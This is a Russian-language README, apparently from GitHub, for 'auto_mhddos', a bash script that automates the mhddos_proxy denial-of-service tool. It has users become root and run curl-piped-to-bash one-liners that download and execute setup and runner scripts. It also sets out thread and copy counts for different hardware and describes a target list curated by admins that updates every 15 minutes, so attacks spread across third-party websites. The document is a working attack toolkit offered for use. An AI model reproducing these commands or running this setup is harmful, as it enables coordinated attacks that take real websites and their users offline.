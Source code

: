 ##ВРЕМЕННО НЕ РАБОТАЕТ
### auto_mhddos - bash скрипт автоматизирующий [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

Перед запуском перейти под пользователя root. Для этого выполнить команду `sudo su`

## Установка или получение обновлений

* Выполняем команду `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/setup.sh | bash`

* Скрипт автоматически устанавливает git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

## Запуск скрипта

### Docker

```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest [num_of_copies] [threads] [rpc]
```

Все параметры опциональные, но если передаются, то строго в указанном порядке.

### Bash

* Запускается одной командой (one-liner) в Linux і WSL (Windows Subsystem for Linux). Дальнейшее вмешательство со стороны пользователя не обязательно. `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash`

#
Команды для разного железа: 

-- Слабое (2 ядра 2 ГБ): `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 1 500 100`

-- Среднее: `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 1000 200`

-- Быстрое: `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 2000 1000`

Значение параметров на примере "bash -s -- 1 500 100":

1 - кол-во паралельно запущенных копий mhddos_proxy.

500 - количество потоков (threads). Параметр -t в mhddos_proxy.

100 - параметр --rpc в mhddos_proxy.
#

* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 15 мин.

* Если целей много, то они выбираются из списка рандомно, поэтому не обязательно раскидывать пользователей по группам и распределять между ними нагрузку. Рандом все сделает самостоятельно.

* По умолчанию скрипт запускает 1 копию mhddos_proxy. Если запустить больше, то каждая копия будет независимо выбирает цель из списка, повторяться они не будут. Для этого в списке должны быть хотя бы две цели. Если будет мало целей, лишние копии программы просто не будут запускаться.

* Чтобы скрипт запускал больше копий mhddos_proxy, например 3, выполнить следующую команду `curl -s https://raw.githubusercontent.com/KarboDuck/karbo-wiki/master/runner.sh | bash -s -- 3` Если в списке всего две цели (две команды, начинающиеся на "runner.py"), то запускать 3 копии нет смысла. Вреда правда тоже не будет. Скрипт возьмет две цели, а третью копию программы просто не запустит.

Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.

## Завершение скрипта

Чтобы завершить скрипт, простой закройте окно с терминалом

ИЛИ

В другом терминале выполните команду "pkill python3", потом в основном терминале нажмите CTRL + C.
